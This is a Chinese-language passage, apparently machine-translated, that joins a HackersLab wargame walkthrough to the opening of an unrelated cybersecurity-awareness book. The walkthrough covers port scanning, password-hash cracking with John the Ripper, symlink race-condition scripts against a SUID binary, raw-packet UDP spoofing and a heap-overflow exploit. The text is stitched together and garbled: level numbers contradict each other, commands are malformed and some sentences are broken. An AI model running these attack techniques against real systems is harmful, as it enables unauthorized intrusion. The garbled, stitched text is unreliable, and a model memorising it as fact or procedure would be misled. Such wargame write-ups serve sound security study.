这是 HackersLab 最简单的关卡之一，适合非常放松的时间。它关注以下事实：访问系统有第二扇开启的门。这些门是什么？每当你连接到系统时，都会创建一个“套接”（Socket）。Socket 不非 IP + 地址的组合服务门。这允许同一个互联网地址运行多个服务，如 Web 服务器、FTP、SMTP、POP 等。一些常见的端口号：
- 21 - FTP
- 22 - SSH
- 23 - TELNET
- 25 - SMTP
- 79 - FINGER
- 80 - WWW
- 3128 - PROXY
- 6000 – XWINDOWSSERVER，使用 TCP 和 UDP 协议的常用端口。

例如：当我连接到任何网页如 `http://www.visualbooks.com.br` 时，我实际上是连接到 `HTTP://www.visualbooks.com.br:80`（`visualbooks.com.br`，端口 80，这是网页标准）。到目前看来似乎很简单。但我们遇到了以下问题——TCP 和 UDP 协议都有 65535 个端口。门是无穷不尽的。我们如何发现哪些是开启的，哪些未开启？通过使用端口扫描器。端口扫描器是尝试查找特定 IP 地址或主机上哪些端口是开启的应用程序。它们通常可以使用已知常用端口列表或一个范围（例如：从 1000 到 8000）。它们通常非常快，并迅速返回结果。常见的端口扫描器会对目标机器执行 `TCP connect()`。这意味着它执行了三个 TCP 认证路径（`syn-syn / ack-ack`）。使用这种系统，扫描器很容易发现扫描尝试。例如，防火墙或 IDS 会快速捕获黑客的 IP。为了结束这种情况，现在有了更先进的扫描器，如 `NMAP`。`NMAP` 除了 `TCP connect()` 还可以以许多方式扫描，拥有半 syn()`（仅发送 `syn`）、`fin`、`Xmas` 等。每种类型使用不同的标志位，难以检测扫描主机。在这个循序渐进的关卡，我将使用两个不同的扫描器：用于 Linux 的 `NMAP` 和用于 Windows 的 `VALHALLA`，我们将尝试寻找端口。

我们以 `level6` 身份连接并再次进行基础操作。但我们现在没有任何文件了……为什么？当然……我必须找到一种系统访问的方法，但不要尝试破解任何文件的安全性。让我们先用 `NMAP` 尝试检测端口。发送 `NMAP` 扫描 `drill.hackerslab.org` 后，它返回给我 `23`、`80` 和 `6969`。现在 `23` 来自 telnet，`80` 来自 Web 服务器，这个 `6969` 呢？嗯，非常可疑。让我们把 `VALHALLA` 放到 Windows。`VALHALLA` 是我创建一个程序，除了主机和 IP 扫描器，还是端口监控和端口扫描检测器。可以在 `http://www.anti-trojans.cjb.net` 下载。结果几乎相同。发现了端口 `23`、`80`、`100` 和 `6969`。最可疑的肯定是 `6969`。让我们 telnet 到它看看会发生什么。

只需输入 `telnet drill.hackerslab.org 6969`，将端口放在名字前面。结果出来了？出现了一个与通常 HackersLab 登录类似的提示。要求输入我的 `level6` 密码……输入后，宾果！系统返回给我：`assets!!` Level7 的密码是 `Can't help falling in love`。我早说过这个关卡会很简单……不是吗？

## Level 7 题目

登录名：`level7` 密码：`Can't help falling in love` 学习内容：破解 Unix / Linux 密码。

许多老黑客已经习惯了 `DES`、`shadow`、`Cracker Jack`、`John the Ripper`……遗憾新一代对这些术语没有这么熟悉。Unix / Linux 使用一种名为 `DES` 的密码加密系统。该系统创建一个加密字符串并将其放在安全文件系统中，名称通常为 `/etc/passwd`。以前使用 `/etc/shadow`。它们移动到 shadow 存档以增加安全性，让原始密码只留下用户名。控制系统的人可以获取任何文件，甚至是 shadow。一个典型的 shadow 条目：`mflavio: yFdrXa1EwNYng: 1212: 0: 99999: 7 :::`。根据之前的信息，我们拥有用户名 `asmflavio`。加密密码：`yFdrXa1EwNYng`。剩下的数字是系统 ID（`UID`、`GID` 等）。

太好了，我有 Linux 用户的密码，但它是加密的！没问题，我会找一个解密程序。这听起来可行，但不可能。正如我之前所说，`DES` 创建的是哈希，这是一个单向加密系统。它无法被解密。但……我们如何找到密码？用你的想象。思考：如果 shadow 中的密码无法解密，系统如何将此密码与用户登录时输入的密码进行比较？很简单。系统加密新密码并比较这两个加密值。如果它们相等，那就是 `CrackerJack` 和 `John The Ripper` 是允许你使用单词列表或暴力破解来“破解”Unix / Linux 的程序。它们会使用 `DES` 加密每个单词，并与密码文件中的密码进行比较。如果结果命中……那就是正确的密码。当然，对于这一点，你需要一个好的单词列表。单词列表包含常用密码，并分为电影名、德语单词等类别……让我们再次看看在实践中这个过程是如何完成的。

我们登录 HackersLab 并寻找 UID 为 `level8` 且 GID 为 `level7` 的文件。我们找到了 `/dev/audio2`。进入 `/dev` 目录并运行 `./audio`。程序在屏幕上显示了一些垃圾。但它们真的是垃圾吗？它显示了三个字符串（可能也可以通过此 `string` 命令获得）：`level8`、`shadow` 和 `VoE4HoQCFfMW2`。嗯，我推断了一点，通过最后一个字符串和其他另外两个的哈希特征，我想我们找到了密码……加密过的。

我们必须使用 `John the Ripper` 来尝试找到密码（可以在 `http://www.blackcode.com` 获取）。但在之前，我们需要停止单词列表并适配加密密码。是否有方法可以让你仅通过输入哈希作为 `John the Ripper` 的命令行来尝试找出密码？对于这一点，你可以使用单个选项。但为了学习问题，我们获取了一个 shadow 文件，并将根密码替换为我们获取的哈希。这样，我们模拟并破解了一个 shadow 文件。列表已保存为 `passwords.txt`。现在，让我们使用 `JTR`。`JTR` 执行为 `john -wordfile: passwords.txt shadow`（`sig-Nice: Dear John,请使用单词列表 passwords.txt 测试 shadow 中的密码)。它迅速地将密码返回给我。


这太棒了。这是一个多么奇怪的词啊？Pen - 一会儿后我们发现：wonderfu 实际上在英语中是 wonderful（奇妙），我们列表中的单词之一。但为什么它只显示了八个字符呢（最后一个是缺失的“l”）？这与 `Program File` 目录变成文件时发生的问题相同。该程序是基于 DOS 的，只能显示八个字符。当然，你可以在规则中更改它。要了解更多信息，请参阅 `JTR` 手册。重要的是，level8 级的密码是 wonderful！

## 8 级 问题

登录：`level8` 密码：`wonderful` 学习：`竞态条件 (Race Conditions)`。

到此为止，HackersLab 挑战发生了很多变化。之前的关卡非常简单，所以没什么关于学习的可以说的，现在的变化来自于竞态条件。它们的设计比我们目前为止处理过的要复杂一点，需要更多的知识（包括代码示例）才能被正确理解。如果你不熟悉 `C`，最好在此之前先有一定的概念，但现在没关系。理解问题背后的通用概念已经迈出了一步。

这种对竞态条件问题的理论介绍是必要的，以理解它是如何发生的，问题在两个读和写函数之间是如何产生的，并感知哪些函数可以用来纠正特定问题。如果你对 `C` 没有概念并且在解释中感到“云里雾里”，我建议你尝试学习一下，因为之后的所有关卡都将使用编程。这一级比之前的关卡高得多，但将易于逐步理解。

我们以 `level8` 身份连接 HackersLab，找到 `level9` 的 UID 和 `level8` 的 GID 文件。我们找到了问题中提到的 `/usr/bin/ps2`。在进入 `/usr/bin` 目录后，我尝试运行 `./ps2`。什么都没有发生……真的吗？我们知道它创建一个临时文件，但假设我们并没有被告知。所以可以使用 `strace` 命令来“检查”我们的操作。输入 `strace /usr/bin/ps2`（不带引号）。来看看命令生成了：听起来像是个笑话……我们在学习中看到的一切……`open()` 函数在没有任何描述符检查的情况下打开了一个临时文件，尝试使用 `write()` 函数写入字符串 `hahahahahahahaha` 而没有读取任何权限，更糟糕的是，它给了我们文件名而不是创建一个随机文件。

让我们尝试创建一些“小脚本”，将 `ps2` 程序创建的临时文件 `/var/tmp2/ps2.tmp` 链接到我们感兴趣的内容。你将需要使用 `VI` 文本创建两个小程序或脚本。其中一个将运行 `ps2` 文件，以便我们在它“关闭” `/var/tmp2/ps2.tmp` 文件之前享受我们的竞态条件。只需输入 `vi <文件名>`。在第一个脚本中，例如，使用 `vi /var/tmp2/race1` 命令在 `/var/tmp2`（或其他临时目录）创建一个名为 `race1`（或其他文件名）的文件。第二个脚本也是如此。在启动 `VI` 时，输入“a”进入编辑模式，按 Esc 返回到程序模式。

```bash
race1
while true
do
  /usr/bin/ps2
done

race2
while true
do
  /usr/bin/ps2 &
  rm -rf /var/tmp2/ps2.tmp
  ln -sf /var/tmp2/race1 /var/tmp2/ps2.tmp
done
```

关于 `VI` 的一个小贴士：当你输入完后，按 Esc 键；要保存（按 Esc 后），输入：`:w`（冒号+w）；要退出：`:q`（冒号+q），如下例所示：来看看。两个脚本都会循环。第一个（`race1`）正常运行 `ps2` 文件但不断重复，为我们留了足够的时间更改临时文件。第二个脚本（`race2`）再次运行 `ps2` 程序，但在后台运行（使用 `do &`），因此为我们提供了更多时间来赢得比赛。在循环中，`race2` 尝试删除临时文件并将其替换为指向 `race1` 文件的链接。

逐行查看以防复杂化：`/usr/bin/ps2 &`（再次运行程序）；`rm -rf /var/tmp2/ps2.tmp`（删除临时文件）；`ln -sf /var/tmp2/race1 /var/tmp2/ps2.tmp`（覆盖临时 - 一个指向第一个脚本的链接，因此程序将尝试记录我们脚本中的字符串而不是临时文件）。创建完两个脚本后，我们必须赋予它们执行权限。只需输入命令：`chmod +x race1` 和 `chmod +x race2`，正如 `chmod` 之前的权限和之后的权限所示？现在我们可以执行了。现在我们必须做一件在 HackersLab 中前所未有的事：我们连接两次。也就是说，你将需要打开两个 telnet 窗口并同时登录两次 `level8`。在其中一个窗口中，你通过输入 `./race1` 运行 `race1`，在另一个窗口中通过输入 `./race2` 运行 `race2`。当你运行两者时，屏幕上会出现一些“垃圾”信息，类似于“existing file”。但在运行 `race2` 之后，如果 `race1` 已经在运行，你会在屏幕上看到：

“太棒了！你的攻击成功了！” 密码是 wonderful！


在我们完成连接之前，我们必须不断对目标进行伪造和嗅探，并真的假装成认为正在与受害者通信。当然，“手动”操作是非常糟糕的，因此有各种应用程序可以完成这个过程。我们在 Linux 下有几十种这类类工具，如 `spoofit`、`lcrzoex`（多平台支持）等。我们还有针对 Windows 2000 的程序，可以伪造 IP 和 MAC 地址。其中一个是 `sterm`，配置 IP 欺骗非常简单，如图所示。请参阅附录 B 获取获取这些程序。

## UDP 欺骗

既然我们已经看到了如何在 IP 上进行欺骗，那么很容易理解我们将如何进行 UDP 欺骗以获取下一级的 HackersLab 密码。原理相同但简单得多。UDP 与 TCP 不同，没有三次握手。它被认为是一种“不可靠”的通信协议，因为丢包没有关系。UDP 广泛用于广播（例如在互联网上流某些视频或音乐）。因此，我们不需要尝试寻找某种序列号来发送伪造的 UDP 包。只需获取该包的头部（仍然在允许我们发送 RAW 数据包的根机器上），并包含新的“伪造”地址。我们有两种方法来实现这一点：使用出色的 `hping` 工具(www.hping.org)，它可以执行各种类型的欺骗（包括 UDP，结果显示除外）。或者我们将自己编写 C 代码来实现。根据教学问题，我们将采用第二种方案。

把我的代码邮箱换给你的，你就会收到密码。还记得我在开始说过即使在这个水平也只有少数能通过吗？嗯，问题在于：太多的防火墙和路由器拦截了伪造包。这意味着在你的计算机和 HackersLab 之间的路径上，很有可能某个路由器“阻止”了伪造包。该怎么办？尝试多个路由……我尝试在互联网上获取的几个免费 shell 上运行程序，直到我一个来自福尔塔莱萨的朋友的 shell 运行成功了，我通过邮件收到了密码。让我们逐步运行看看吧。

### 逐步步骤

现在让我们尝试一下欺骗。在下面的图中，我们编译了 `udpspoofbr`（或你喜欢的任何名称），这是我们在 `study` 部分看过的代码，并执行它。它要求我们源 IP、源端口、目标 IP 和目标端口。在问题中，它要求我们发送一条看起来来自 `www.hackerslab.org`、从任何端口到 `drill.hackerslab.org` 的 `5555` 端口的消息。所以我这样输入了命令：

```
./udpspoofbr www.hackerslab.org 1234 drill.hackerslab.org5555
```

注意源端口没有区别，所以我们填了 `1234`。但我得到了一个“socket failed”错误。当然，我必须是 root 权限才能操作，否则系统不会允许你操作 RAW 数据包进行欺骗。让我们以 root 身份重试。

现在可以了……有了正确的 root 权限，我发送了伪造包。这就是为什么如果你家里没有 Linux，你就需要它的原因。在 HackersLab 中，你没有 root 权限，无法发送伪造的 UDP 包。几分钟后，我在发送给我的邮件内容中收到了一些有趣的东西：什么？？这意味着我不能吗？（权限被拒绝）？不……这（很奇怪地）是下一级的密码。跳转到第 11 ！

## 第 11 题

正如栈溢出是一个危险一样，堆溢出也是如此。每当我们使用不限制缓冲区大小的危险函数与具有 SUID 标志和 `.root` 文件权限的程序结合时，我们就创建了一个大问题。只要很好理解这个概念，解题将会简单。找到问题文件，选择利用程序并更改 `PROGVULN` 和 `ARQVULN` 的值。

### 逐步步骤

我们连接到 HackersLab 并找到了问题描述中引用的文件 `/usr/local/bin/hof`。让我们看看它是否真的会导致段错误。让我们执行它。

就在那里。它向我们要了第 11 级的密码，不久后发生了一个失败的段错误。这是我们的网关，就像在栈中一样。现在有一点不同。程序的运行方式如下：如果我们提供正确的密码，它将访问 `passwd.success` 文件（或在错误未发生时访问它），如果我们犯了错，它将访问 `passwd.fail`。我们将尝试利用 `passwd.success`，利用段错误通过 `hof` 程序的 SUID 权限访问该文件的内容。我在 VI 中编写了利用程序，并将 `PROGVULN` 常量设置为 `/usr/local/bin/hof`，将 `ARQVULN` 设置为 `/usr/local/bin/passwd.success`。保存并编译了。

```bash
cc exploit.c -o exploit
```

就大定了！让我们测试并对十六进制地址进行一些暴力破解，直到成功。准备好了！在尝试几次不同的地址后（注意一点：为了找到正确的地址，我们一直在尝试，直到路径 `/usr/local/bin/hof` 出现在屏幕上满屏）。哇！i want to love forever 是第 13 级的密码。

## 第 12 题

登录：`level128` 密码：`I want to love forever`

### 研究：简单加密

我们已经讨论过加密，从那个级别开始，HackersLab 开始重复已经见过的技术（阅读其他级别）。我们在这一级有一个没有的优势。我们使用一个程序来寻找加密后的密码。现在我们只有问题中提到的加密工具：`/usr/bin/encrypt`。目标：使用该程序尝试找出加密类型。我们知道加密后的密码是 `tu|tSI/^`。让我们研究一下这个程序看看它是如何工作的。首先：密码 `tu|tSI/^` 长度为九个字符。如果加密是简单的，这可能是原始密码待加密的字符数。这是我们对 `encrypt` 进行的第一个测试：我们更改（尝试）某些值来尝试接近加密值。

```bash
./encrypt aaaaaaaaa
```
结果：`'GGGBB-SS'`

```bash
./encrypt aaaa2aaaa
```
结果：`'t GBBB-SS'`

```bash
./encrypt aaaaa9aaa
```
结果：`'G | BBB-SS'`

```bash
./encrypt aaa129aaa
```
结果：`'you | BBB-SS'`

```bash
./encrypt caa129aaa
```
结果：`'you | BBB / SS'`

```bash
./encrypt cha129aaa
```
结果：`'you | BBB / Z S'`

```bash
./encrypt chl129aaa
```
结果：`'you | BBB / Z ^'`

```bash
./encrypt chl1296aa
```
结果：`'you | t BB / Z ^'`

```bash
./encrypt chl1296rh
```
结果：`' tu | tSI/^ '`

基于错误尝试法，我们得出了一个与加密密码对应的值。然后我们在彻底测试过 `encrypt` 的研究中得到的字符串对其进行测试。然后我们运行 `./encrypt chl1296rh | more`（逐屏显示）。加密将执行几十次，我们将得到加密结果：

这确实是我们尝试匹配的给定的加密密码。但它有效吗？只是为了测试一下……那！！！ 密码是有效的。这意味着第 13 级的密码是 `chl1296rh`。

其他级别……更多同类的内容


我们在第 12 级结束本书的深度学习。为什么是这样呢？因为 HackersLab（至少到目前我写的）有 17 级。问题在于从第 13 级开始，不再有值得研究的“新内容”了。我不认为你只想通过通过关卡来学习。嗯，我们可以说第 13 到 17 级是你到目前所学知识的集合，并带有一些 C 语言的提示。从现在开始，学习将不再是一本“C 语言书”（带有巨大的代码和大量的注释），而且，我确定你现在已经很好地掌握了挑战是如何运作的，需要一点休息时间来消化这些关卡。

为了帮助大家，我将列出剩余的关卡，并说明每个关卡的主题。这样你就知道该怎么“走”了。第 13 级处理 Socket 编程。按照关卡问题的规范（可在 www.hackerslab.org 查阅），使用头文件 `protocol.h` (http://www.hackerslab.org/eorg/fhz/proto.h) 并根据你的指令构建一个程序，计算距离并将值发送回服务器三次以获取密码。第 14 级要求你了解 C 语言、知道 `execve` 是什么，以及如何使用 `GDB` 设置断点。这非常烦人，但很值得！

使用函数指针进行溢出。这和我们之前做的没有太大区别。重读堆溢出章节，那里有你解决此问题所需的所有内容。第 16 级是栈溢出……可能稍微复杂一点，但仍然是那个经典的栈溢出！！！第 17 级我就不剧透你的惊喜了……来发现吧吧！！！！ :-)

## 结论

感谢你读到《面向黑客的 Kali Linux》的最后，希望这本书对你有所启发，并能为你提供实现目标所需的所有工具，无论你的目标是什么。

管理员应该与时同步，应对黑客的武器。当然，Kali-Linux 并不包含网络犯罪分子尝试的所有工具。但通过包含的工具，可以追踪到相对明显的漏洞。本书试图引导读者了解 Kali-Linux 中部分复杂的用法。

这本书的妙之处在于，它不仅详细介绍了 Kali-Linux 中的工具及其用法，还探讨了被利用的漏洞本身。这让经验较少的用户能够理解潜在的威胁之处。

## 黑客基础安全

学习有效的安全方法以及如何管理网络风险
带有攻击与防御策略工具的意识计划
黑客攻击中的利用艺术

## 引言

首先，我想赞赏你迈出了勇敢的一步，下载了这本书《黑客基础安全：学习有效的安全方法以及如何管理网络风险。带有攻击与防御策略工具的意识计划。黑客攻击中的利用艺术》。这本书包含了你所需的一切，包括处理计算机安全问题的最佳方法的成熟步骤和策略。你将学习如何保护自己免受不惜一切危害你安全基础设施的恶意黑客。

这本书将指导你如何防范想要侵入你的个人数据或侵犯你隐私的人。今天，数百万互联网用户由于缺乏基础安全知识而不断受到攻击，每天损失数十亿美元。阻止这些黑客非常困难，因为你面对的是会尽一切手段得到他们想要的东西。然而，这并不意味着你不能保护自己。你可以阻止这些黑客实施的活动；你可以学习黑客，不是为了欺诈活动，而是为了保护自己免受任何恶意黑客的影响。

无论你喜欢，网络安全影响的不只是你的邻居。它影响着世界上每一个人。无论你的业务性质、地理位置或你引以为傲的安全特征如何。即使你住在美国，也不是安全的，尽管它据称是世界上安全意识最强的国家。不可疑问，任何驾驶员的安全性都会影响道路上的其他驾驶员。这就像因为某人感冒而将其限制在一个特定的环境中。通过这样做，你防止了病毒在社区其他地区的传播。维持适当的网络安全措施也会影响世界。

大多数时候，当我们谈论网络安全时，我们关注设备，因为它们往往是最容易受影响的，也是黑客获取我们信息的简单手段。一台受感染的设备就有破解其他系统的方法，进一步使得所有者的信息和数据容易受到黑客的攻击。现在每个青少年的生活有 80% 都在线上，没有比现在谈论网络安全的更好的时候了。我们如何能教这些青少年网络安全的重要性？虽然这些个人可能不使用信用卡或银行卡在线购物，但他们让黑客或网络犯罪分子获取他们的个人数据和账户变得容易得多。此外，社交媒体、电子邮件中的不良习惯以及弱密码也是这些黑客更容易入侵他人电脑的手段。

## 当前网络安全面临的问题

你从床上醒来，脑海中浮出的第一个念头是手机。查看最近的事件、预约，然后注销。接着你洗澡、穿好衣服，开始了一天的工作。你来到办公室喝了第一口咖啡，才意识到自己处于自动驾驶模式。

在不考虑任何事情的情况下，离开之前关上门是逻辑性的。至少为了我们的安全，我们系上安全带不是因为觉得它们舒服。骑自行车时头盔也是如此。你不会在不看来车的情况下直接过马路。事实是，我们整合了各种安全行动来应对现实生活中的危险。然而，许多人还没有回答的问题是，他们是否已经准备好在网络世界中生存？

当你读这本书时，你可能是连接互联网的 10 亿人之一。你是互联网用户之一，每当你执行以下操作时，都会为互联网信息的产生贡献：

*   点击链接
*   对任何内容进行 Google 搜索
*   发送或接收即时消息
*   下载或安装应用程序
*   在博客、社交网络或网页上发布内容
*   点赞社交媒体内容
*   通过在线商店购物

这个列表是无穷的，因为互联网使我们能够做远超想象的事情。我们产生的信息量远超过任何人的想象，我们大多数时候都低估了这些信息。我们低估了它们的价值和数量，并忽视了许多事情。我们在执行各种在线活动时，对生成的信息类型关注越来越少。无论你信不相信，总有人想要你的那些信息，而你却处于劣势。

一旦我们连接到互联网，我们的信息就变成了黄金。我们开始像住在玻璃房子里的人一样。住在玻璃房子里的坏处是，经过你附近的人会看到你在做什么。同样，当我们让设备处于不安全状态，我们就让黑客利用了我们的信息。


我知道“黑客”（hacker）这个词对不同的人有不同的含义。今天，它的含义可能取决于该词所使用的特定语境。例如，如果你查阅字典，你会发现它的含义是指一个喜欢探索可编程系统的复杂性并寻找方法挖掘其性能的个人。这与那些致力于学习这项技能的人不同。这并不是指那些首要动机是在网络上进行欺诈活动的人。尽管如此，如果你浏览互联网和媒体上的各种出版物，你会发现“黑客”一词通常是指从事网络犯罪的人。有时，他们也被称为破解者（crackers）、黑帽或攻击者。这些攻击者的首要动机是从在线的无辜用户身上获利。在这些动机不是金钱的情况下，它也可能是为了炫耀自己的能力或仅仅出于意识形态。

作为用户，你应该关注的是，这些攻击者每天都在创建复杂的攻击方法来窃取敏感信息。遗憾的是，他们成功了，因为用户没有采取必要的安全措施来缓解他们的策略。你可能感兴趣的是，犯罪活动产生的金钱比世界上任何行业都多。最近的一份报告显示，网络攻击的成本高于自然灾害。

## 第一章：网络安全的基础与重要

## 网络安全的基础

信息技术行业的创新正在推动效率和易用性的提高；这代表了巨大的价值。如果你观察过技术的本质，你现在应该知道这些属性（技术的效率和易用性）会随着时间的推移而增加。虽然各种组织正在采用不同的网络安全方法来保护他们的数据和信息，但个人认为在线安全至关重要。鉴于此，我总结了每个人都需要的四个个人网络安全基础。事实是，光靠政府是无法解决问题的，因为我们都扮演着至关重要的角色。以下四个个人网络安全基础不仅适用于个人，各种工作场所的公司和员工也可以遵循它们。

## 设备保护

我们所有的小工具和设备，如平板电脑、电脑、笔记本电脑、智能手机等，始终连接到互联网。为了避免任何信息泄露或入侵，个人必须使用可用的最佳安全保护功能来保护这些设备。幸运的是，最近的技术创新带来了有效且高质量的保护系统，这些系统以前只有大公司才有。在设备保护方面，必须遵循以下预防措施。

*   > 你的设备应该设置实时防病毒软件和其他防御系统
*   > 必须具有远程管理功能，消除对用户输入或任何行为修改的需求
*   > `Password` 管理应用程序必须在各种移动设备平台上顺畅运行
*   > `Internet` 连接的保护

### 互联网连接保护

> 仅仅保护你的设备是不够的，因为你的设备一旦在线，就可能成为受害者。因此，你的设备需要更多的防御来保护通过互联网传输的每一条信息。

> 你的设备应该有自己的虚拟专用网络（`VPN`）来加密你的位置。由于它对你网络安全的重要性，我将在后面的章节详细讨论。然而，一个良好的 `VPN` 对你非常有益，它可以保护你的位置、身份、银行、购物和浏览历史。它还保护你在线交易的信息，无论是业务还是个人。

### 保护电子邮件通信

> 个人网络安全的第三个基础是电子邮件通信的保护。统计数据表明，大多数黑客通过电子邮件通信获取你个人信息的后门。遗憾的是，例如在美国，许多消费者期望电子邮件是免费的，这使我们忽略了隐私的首要意义。

> 在使用电子邮件通信时，使用使用开源软件的电子邮件提供商，以确保在各种技术平台和架构中的可移植性、安全性和兼容性。此外，该服务必须在个人电子邮件通过互联网发送时，自动剥离元数据信息和 `IP` 位置。

### 文件和电子文档的保护与备份

> 我们有各种远程备份服务提供廉价的备份服务。此外，在这一代，将文档保存在云端的便利性听起来很棒。然而，并非所有文档都可以经过这个过程。你还可以使用数字库来保存关键和敏感文档。敏感文档包括出生证、扫描护照、纳税申报、信托、遗嘱、社会安全卡等。

> 在个人生活或公司中推广这四个个人网络安全基础流程，有助于将网络安全意识提高到更高水平。有趣的是，如果你不想让任何人侵犯你的隐私，这些解决方案并不昂贵，但非常重要。

## 网络安全的重要性

我们生活在一个日常生活不断在线进行的世界里。忽视关于你的计算机和网络安全方面面临的在线问题是令人震惊的。然而，大多数人只有在出现国家级挑战（例如，名人照片泄露或高层政治家的安全漏洞）时，才会意识到这些问题。尽管如此，我们面临着共同的网络犯罪，这些问题往往比国家级问题更普遍。你会同意我的，我们每天都受到网络罪犯或黑客的轰炸，他们尽一切办法让受害者受害。

遗憾的是，大多数受害者都给这些网络罪犯留了可乘之机。这些黑客或罪犯中只有少数是他们所领域的大师或专家。此外，对网络安全的意识缺乏和无知让这些罪犯更容易如鱼得水并针对他们的受害者。通过这些，他们可以窃取身份并入侵他们的信息，而不会受到受害者的任何反抗。

例如，美国约 3000 家公司报告了有关公司安全漏洞的各种问题。不幸的是，这些公司不仅包括经营小型在线业务，还包括大型零售商，如 `Home Depot` 和 `Target`。信用卡信息和客户数据以及从各种账户中收集的资金被盗，其他知识产权也被泄露。在大多数情况下，这些黑客会入侵公司的内部系统并扣留文件索金。根据统计，网络犯罪每年给全球经济带来约 4000 亿美元的损失。因此，全球组织和公司通过遵循各种标准，不断将网络安全视为首要任务。

## 网络安全的重要因素

在过去的十年里，网络安全已成为一个持续的挑战和重点。这些黑客带来的威胁似乎超过了为了应对这些威胁而建立的防御机制。此外，迹象表明，除非迅速采取行动，否则威胁将继续。人们变得具有安全意识并不是一个意外的因素。这导致了网络安全专家投入时间来对抗这种威胁。


各种因素清楚地表明了网络安全在当今时代的重要性。打击欺诈活动是一项重大问题，与其在事后解决，不如进行实时处理是应对这种状况的更有效方法。我想指出一些需要极度关注的重要网络安全因素以及潜在的解决方案。

### 信息战
考虑到全球数据的重要性，信息战正变得日益流行。根据目前的趋势，预计这种战争在未来几年将占据主主导地位。除了对经济产生破坏性的数据窃取外，个人数据也成为目标，使人们变得更加脆弱。

### 新漏洞
最近的先进技术也未能例外，因为它们正经历指数级增长，这为新漏洞滋生的温床。研究估计，熟悉的风险将导致 80% 的网络安全事件。

### 云存储安全
由于本地存储系统的限制，大多数组织都依赖云端来存储数据。这可能对它们的隐私构成主要威胁。访问不稳定和不安全的问题对任何人的机密信息都构成了巨大威胁。为了解决这个问题，建立云决策模型有助于控制使用这些数据的人员。

### 物联网 (IoT)
如今的大多数企业严重依赖互联网技术进行数据传输和访问。然而，这些企业并没有意识到使用这些新技术所带来的隐性挑战。此外，物联网的一个严重威胁是其个人数据的脆弱性。此外，使用默认密码机制和故障的通信方法构成了巨大威胁。另一个威胁可能是隐私泄露。

### 区块链与勒索软件安全
病毒、恶意软件、勒索软件和木马是常见的网络安全威胁，受感染系统的文件会被加密。这些攻击者加密这些文件的目的是在提供解密密钥之前向受害者索要赎金。不幸的是，这些受害者可能被迫支付，但不能确定攻击者是否会释放密钥。区块链安全的性的可能成为一个重大现象。区块链安全将在未来几年成为一个核心人物。

### 身份验证工具
以前网络安全中使用的身份验证工具是为通用设计的。然而，随着威胁级别的增加，需要实施新的基于风险的身份验证工具。通过这些工具，可以将战斗推到某种程度，防止任何可能的数据泄露。

### 培训非技术人员
组织必须考虑对其非技术人员的培训，因为网络安全的责任关乎每一个人。此外，举办关于网络安全优势和重要性的研讨会或培训将是减少网络犯罪威胁的良好措施。

### 人工智能
人工智能的使用可以在对抗网络犯罪分子和黑客的战斗中产生显著差异。在某种程度上，它将弥补网络安全专家匮乏的弱点。

### 数字生态系统
网络安全的作用不应被忽视，因为它影响着世界。当你继续阅读此书时，你将理解网络安全及其威胁如何对世界产生巨大影响。就此而言，每个人必须在数据安全、隐私和保护中发挥自己的作用。

### 安全技术的整合
这一因素将成为我们保持领先于安全威胁的规则改变者。根据目前的趋势，集成中心正在增加，公司正依赖安全技术来通过方式管理其状况。要共同制定一个全面的网络安全计划，必须包括内容保护、密码、`IP`、隐私、数据安全以及相关的加密技术。如果你想领先于任何威胁并控制局面，你必须跟上当前的安全技术。

最后，需要采取适当措施来应对这种日益增长的个人隐私和数据安全威胁。需要各国政府进行干预以提供保护、关注和审查。这里提到的这些因素非常重要，因为它们涉及网络安全。记住，网络犯罪分子和攻击者的目标不仅仅是公司；现在的战斗也针对那些对隐私缺乏意识的个人。因此，当我们通过用正确的信息保护自己来向这些网络犯罪分子战斗时，所有人必须齐心全力。

## 第 2 章：网络安全风险与攻击

由于网络安全的定义有很多，很难找到一个适用于所有用途的定义。然而，网络安全涉及确保信息机密性、完整性和可用性的实践。它意味着防御并从任何停电、系统故障和来自网络犯罪子的攻击中恢复的能力。将网络安全视为信息机密性、完整性和可用性的实践，包含了网络犯罪分子、黑客到具有执行高级持续性威胁潜力的脚本小子（script kiddies）。此外，这对个人和企业都构成了严重威胁。

## 网络安全类型
如果我们讨论网络安全的范围，那就太广泛了。然而，我的目标是描述你应该考虑的核心领域和重要的网络安全策略。

以下是网络安全的某些类型：

### 关键基础设施
这种类型的网络安全由我们社会依赖的物理信息系统组成。它们包括交通灯、水质处理、医院和电网。例如，如果你将一个电厂接入互联网，它就会容易受到网络攻击的影响。因此，负责关键基础设施的人有义务在防止任何形式的漏洞方面保持严谨。

### 网络安全
大多数时候，当你听到网络安全时，许多人首先考虑到的是网络安全。网络安全非常重要，因为它帮助我们防范任何形式的非法入侵，包括内部内部人员。如果我们想确保网络安全，通常会有权衡。例如，安装访问控制可能是必要的；但它会减慢工作生产力。用于监控网络安全的各种工具会产生大量数据。为了有效管理这一过程，安全专业人员正在使用机器来规避实时威胁。

### 云安全
随着公司现在将其信息移动到云端，这产生了一个需要立即解决方案的新型安全挑战。例如，最近发生了由于云系统配置不当导致的数据泄露。为了避免这种情况，云存储提供商正在设计新的安全工具来帮助保护客户的数据。

### 应用安全
网络安全中最薄弱的攻击点之一是 Web 应用程序。遗憾的是，只有少数组织有资源缓解此类风险或漏洞。云部署和快速应用开发导致了 `DevOps` 的创新。

### 物联网安全
这指的是关键和非关键的物理信息系统，包括打印机、传感器、监控摄像头和电器。`IoT` 设备提供的安全补丁很少，这给用户和使用互联网的人构成了威胁。

## 网络安全威胁/攻击类型


通过研究著名战役的历史，你会发现每场战役都是不同的。这些战役的战术和策略可能相似，因为它们随着时间的推移依然有效。同样地，当网络犯罪分子攻击计算机时，除非情况需要，否则他们不会重新发明攻击策略。他们会想出各种长期以来对他们有效的攻击策略。他们可能使用跨站脚本、网络钓鱼或恶意软件来做到这一点。

也许你正试图了解近期数据泄露新闻标题的真实情况，这有助于你识别这些攻击者给受害者造成严重伤害的各种手段。在查看不同类型的攻击之前，我想将这些网络威胁分为三类。

### 1. 针对机密性的攻击
大多数网络攻击始于窃取个人信息而非复制。这些针对机密性的攻击包括盗取比特币钱包、身份盗窃以及信用卡诈等等一些黑客或网络犯罪分子会将机密攻击作为首要任务，因为他们的目的是收集机密以获取经济、军事和政治利益。

### 2. 针对可用性的攻击
今天，我们看到这种攻击以拒绝服务（DoS）和勒索软件的形式，受害者在需要数据时被拒绝访问。拒绝服务攻击泛洪网络资源使其不可用，而勒索软件则加密受害者的信息，并在解密前索要金。

### 3. 针对完整性的攻击
也被称为破坏攻击，其目的是损坏、损坏和摧毁系统或信息。这种攻击会导致一些微小的拼写错误。

## 网络攻击方法

